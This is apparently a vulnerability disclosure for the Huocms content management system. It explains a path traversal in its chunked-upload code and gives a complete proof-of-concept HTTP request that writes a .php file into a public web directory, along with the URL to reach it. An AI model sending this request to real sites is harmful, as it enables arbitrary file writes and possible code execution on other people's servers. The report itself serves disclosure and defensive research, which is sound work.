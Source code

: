 #BUG_Author: yggcwhat

#Affected version:  Huocms

#Vendor:https://huocms.com/


#Source Code Address:  https://gitee.com/digital-flag/huocms

#Vulnerability File: Upload.php

#Description:
In the sliceUploadAndSave method of AttachmentController.php (located under app -> controller -> backend), the resource_type parameter is validated against a whitelist of allowed file extensions (e.g., txt, png, etc.). Subsequently, the method invokes tmpMove from Upload.php (under app -> service -> upload).

The tmpMove method first creates a file. However, the $filename parameter (controlled by the resource_temp_path input parameter, which is user-controllable) can be exploited to traverse directories (e.g., using ../) to create folders. The method then performs a move operation, placing the file into the created directory. The final filename is generated by appending an underscore and the $pos suffix, where $pos is controlled via the chunk_index parameter passed during the call (refer to the actual parameter passing for details).

This creates a vulnerability where an attacker could manipulate resource_temp_path and chunk_index to write files to arbitrary locations with controlled filenames.

Details:
app >controller >backend > AttachmentController.php：sliceUploadAndSave
![image](https://github.com/user-attachments/assets/24c5022b-5dbf-410b-96fd-ccbe93af5dbb)

app >service >upload > Upload.php：tmpMove
![image](https://github.com/user-attachments/assets/d0ba84b2-a5db-498f-95f7-e14a4c90c7cd)
![image](https://github.com/user-attachments/assets/e72806d6-1a06-467b-b040-172109bcb710)



This vulnerability is a backend issue that requires logging into the backend with a token to invoke. Please set up and log in by yourself.

POC：
```
POST /attachment/sliceUploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: token
Content-Type: multipart/form-data; boundary=----geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Length: 990
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_chunk"; filename="blob"
Content-Type: application/octet-stream

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_total"

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_index"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_basename"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_path"

../../../public/storage/image/20250415/
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_type"

txt
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_name"

11.png
------geckoformboundary13d3934e0299a09e8748d146bfb9d483--
```

![image](https://github.com/user-attachments/assets/b670c180-df77-4e0d-9e13-7e02c7e8308e)


Access URL:  
http://127.0.0.1/storage/image/20250415/%5f%5f.php
![image](https://github.com/user-attachments/assets/be060299-23ee-470d-abaa-57550329ba34)





